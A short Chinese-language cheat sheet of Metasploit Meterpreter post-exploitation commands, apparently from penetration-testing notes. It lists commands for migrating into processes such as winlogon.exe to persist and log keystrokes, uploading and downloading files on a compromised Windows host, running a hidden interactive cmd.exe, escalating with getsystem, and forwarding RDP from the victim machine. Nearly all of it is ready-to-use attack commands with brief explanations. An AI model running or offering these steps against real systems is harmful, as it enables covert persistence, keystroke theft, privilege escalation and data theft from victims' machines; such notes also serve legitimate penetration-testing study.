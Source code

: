 Meterpreter 既可以单独运行，`也可以与其他进程进行绑定`。因此，`我们可以让Meterpreter与类似explorer.exe这样的进程进行绑定`，并以此来实现可持续化发展。

我们这此和winlogon.exe绑定 顺手还可以捕获键盘记录。
![](img/18.png)

我们可以使用： 
```
 getpid      \\ 查看我们当前的进程id
```
使用
```
migrate  ID号            \\绑定目标进程id     
```

> 这里绑定目标pid的时候，经常会断了 shell。进程迁移后会自动关闭原来进程，没有关闭可使用  kill  pid  命令关闭进程

如果你一筹莫展不知道应该混进那个进程，可以用自动迁移
```
run post/windows/manage/migrate        \\系统会自动寻找合适的进程然后迁移。
```






### 文件上传
```
upload <file> <destination>
\\上传文件到Windows主机 注意：使用-r参数可以递归上传上传目录和文件
```
### 文件下载
```
download <file> <path to save>
 \\可以下载远程主机上的文件,
 
 如果我们需要递归下载整个目录包括子目录和文件，我们可以使用download -r命令
```
### 文件执行
```
在目标主机上执行exe文件
execute -f <path> [options]
```
### 获取权限
```
获取admin权限
getsystem
```
目标主机上执行exe文件
```
execute -H -i -f cmd.exe \\
  创建新进程cmd.exe，-H不可见，-i交互

  execute -f <path> [options]   \\在目标主机上执行exe文件
```
### 显示进程
```
ps
```
### 创建端口转发
```
portfwd add -l <端口号> -r <目标IP> 

```
```
portfwd add -l 3389 -r 192.168.11.13 -p 3389                   #将192.168.11.13的3389端口转发到本地的3389端口上，这里的192.168.11.13是获取权限的主机的ip地址
```
